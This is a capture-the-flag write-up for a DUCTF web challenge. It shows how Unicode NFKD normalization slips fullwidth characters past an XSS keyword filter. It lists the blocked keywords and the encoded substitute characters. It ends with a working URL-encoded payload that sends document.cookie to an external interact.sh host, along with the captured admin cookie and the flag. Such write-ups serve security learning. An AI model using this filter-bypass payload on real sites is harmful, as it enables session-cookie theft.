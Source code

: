 
## Chain-reaction

### Brainstorm 

- Unicode Characters cause register/login behave weird ? SQLAlchemy
- Escape characters done wrong ?? ( XSS )
- Static session ?? 


### Enumeration

- Unicode using NFKD 
https://docs.python.org/3/library/unicodedata.html



- Bad characters blocking

```
<
>
onclick
script
onerror
onfocuss
javascript
```

https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html

s = "%ef%bd%93"
< = "%ef%b9%a4"
> = "%ef%b9%a5"
r= "%ef%bd%92"
i = %e1%b5%a2
p= "%ef%bd%90"
t = "%ef%bd%94"
/ = "%ef%bc%8f"

XSS payload:
```
AAAA%22%ef%b9%a5+%ef%b9%a4%ef%bd%93c%ef%bd%92%e1%b5%a2%ef%bd%90%ef%bd%94%ef%b9%a5+var%20i%3Dnew%20Image%3Bi.src%3D%22https%3A%2F%2Fc578mgayedf00008arh0gnuwkeryyyyyb.interact.sh%2F%3F%22%2Bdocument.cookie%3B+%ef%b9%a4%ef%bc%8f%ef%bd%93c%ef%bd%92%e1%b5%a2%ef%bd%90%ef%bd%94%ef%b9%a5
```

GET /?admin-cookie=sup3rs3cur34dm1nc00k13 HTTP/2.0

Flag: DUCTF{_un1c0de_bypass_x55_ftw!}
